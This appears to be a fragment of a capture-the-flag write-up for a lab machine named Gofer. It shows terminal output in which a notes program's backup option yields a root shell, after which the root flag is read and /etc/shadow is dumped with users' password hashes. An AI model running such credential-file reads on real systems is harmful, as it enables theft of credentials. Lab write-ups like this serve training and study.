 ```text
2) Show user information
3) Delete an user
4) Write a note
5) Show a note
6) Save a note (not yet implemented)
7) Delete a note
8) Backup notes
9) Quit
========================================


Your choice: 8

Access granted!
root@gofer:~# 

```




```text
root@gofer:/root# cat root.txt 
c2c36f1937f24861ff33874dbb7d5fa9
root@gofer:/root# cat /etc/shadow
root:$y$j9T$nDuW.3vSoMpbgISVomFz40$s8PL3BYhQ5HJINwYWlXvYKi9NnEt5KpMXlf3O0jHSx4:19473:0:99999:7:::
daemon:*:19293:0:99999:7:::
bin:*:19293:0:99999:7:::
sys:*:19293:0:99999:7:::
sync:*:19293:0:99999:7:::
games:*:19293:0:99999:7:::
man:*:19293:0:99999:7:::
lp:*:19293:0:99999:7:::
mail:*:19293:0:99999:7:::
news:*:19293:0:99999:7:::
uucp:*:19293:0:99999:7:::
proxy:*:19293:0:99999:7:::
www-data:*:19293:0:99999:7:::
backup:*:19293:0:99999:7:::
list:*:19293:0:99999:7:::
irc:*:19293:0:99999:7:::
gnats:*:19293:0:99999:7:::
nobody:*:19293:0:99999:7:::
_apt:*:19293:0:99999:7:::
systemd-network:*:19293:0:99999:7:::
systemd-resolve:*:19293:0:99999:7:::
messagebus:*:19293:0:99999:7:::
systemd-timesync:*:19293:0:99999:7:::
sshd:*:19293:0:99999:7:::
jhudson:$y$j9T$O6XZVpGdd39Y3B0Qp9CY61$.yB.uWO1PxZdDWfWB6iMqeGv63HMQXM.uQIfVo0TfQ7:19299:0:99999:7:::
systemd-coredump:!*:19293::::::
postfix:*:19293:0:99999:7:::
jdavis:$y$j9T$MWpAazKnpmOMo4DbZ9J40.$/lsXfhbM1t/kBxFQ7x1EVyJqKBSnnVfyUMtqjk8hYH3:19299:0:99999:7:::
tbuckley:$y$j9T$lgIfer5W5WyVWLfwzpDlu0$xpToiOURzOsTVzfgX6sgl1dNzqq7334cGlzKNm.h7T9:19299:0:99999:7:::
ablake:$y$j9T$bLmJdnLApO3jfWtDGHpi60$1lLmLhhfVRQeXUDOssZ2YP46pXPg0rWWrUCaE7LlDTA:19299:0:99999:7:::
tcpdump:*:19295:0:99999:7:::
_laurel:!:19557::::::

```

